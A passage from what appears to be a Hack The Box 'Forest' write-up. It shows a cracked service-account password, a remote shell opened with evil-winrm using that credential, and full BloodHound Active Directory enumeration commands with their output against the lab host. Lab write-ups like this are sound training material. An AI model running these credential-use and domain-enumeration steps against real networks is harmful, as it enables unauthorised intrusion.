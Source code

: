 ```sh
Candidates.#1....: s523480 -> s2704081
Hardware.Mon.#1..: Util: 79%
```

Perfect! Now we've got a valid credential: `HTB.LOCAL\svc-alfresco:s3rvice`

### WinRM

Our nmap scan showed port 5985 open, which makes me think WinRM is enabled on this machine. Let's try logging in as `svc-alfresco`.

```sh
┌──(pl4stic㉿kali)-[~/htb/forest]
└─$ evil-winrm -i 10.129.95.210 -u svc-alfresco -p s3rvice          

Evil-WinRM shell v3.7

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

## Shell as svc-alfresco

### Enumeration w/ Bloodhound

```sh
┌──(pl4stic㉿kali)-[~/htb/forest]
└─$ bloodhound-python -c all -d htb.local -ns 10.129.95.210 -u 'svc-alfresco' -p 's3rvice'
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: htb.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: FOREST.htb.local
WARNING: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 2 computers
INFO: Connecting to LDAP server: FOREST.htb.local
WARNING: Kerberos auth to LDAP failed, trying NTLM
INFO: Found 32 users
INFO: Found 76 groups
INFO: Found 2 gpos
INFO: Found 15 ous
INFO: Found 20 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: EXCH01.htb.local
INFO: Querying computer: FOREST.htb.local
WARNING: Failed to get service ticket for FOREST.htb.local, falling back to NTLM auth
CRITICAL: CCache file is not found. Skipping...
WARNING: DCE/RPC connection failed: Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)
INFO: Done in 00M 08S
```
